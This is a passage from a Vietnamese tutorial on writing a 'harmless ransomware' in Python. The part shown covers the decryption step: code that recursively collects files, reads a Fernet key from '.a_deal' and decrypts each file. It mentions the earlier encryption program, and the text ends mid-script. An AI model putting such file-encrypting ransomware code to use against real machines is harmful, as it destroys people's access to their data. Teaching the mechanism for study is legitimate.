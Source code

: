 Chương trình này cũng có thể mã hóa file ảnh và video nữa.

![pic-encrypted](/images/harmless-ransomware/pic-encrypted.png)

Chúng ta biết cách tìm và mã hóa các file trên máy rồi, bây giờ chúng ta cần cách giải mã các file đó.

___

## Cách giải mã
Để giải mã các file bị mã hóa, chúng ta sẽ cần tìm các file đó trước. Thế nên chúng ta sẽ dùng đoạn code tìm file của chương trình mã hóa trên.

Sau khi tìm được file, chúng ta cần đọc key trong `.a_deal` để giải mã các file bị mã hóa bằng key này.

```py
with open(".a_deal", "rb") as deal:
	key = deal.read()
```

Chúng ta sẽ đọc nội dung file ở chế độ nhị phân, giải mã bằng key trong `.a_deal` và viết nội dung đã giải mã vào lại file đó.

```py
for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_decrypted = Fernet(key).decrypt(content)

	with open(file, "wb") as f:
		f.write(content_decrypted)
```

Thế là xong chương trình giải mã file (`bill-cipher.py`). Đây là code cho chương trình giải mã này:

```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

with open(".a_deal", "rb") as deal:
```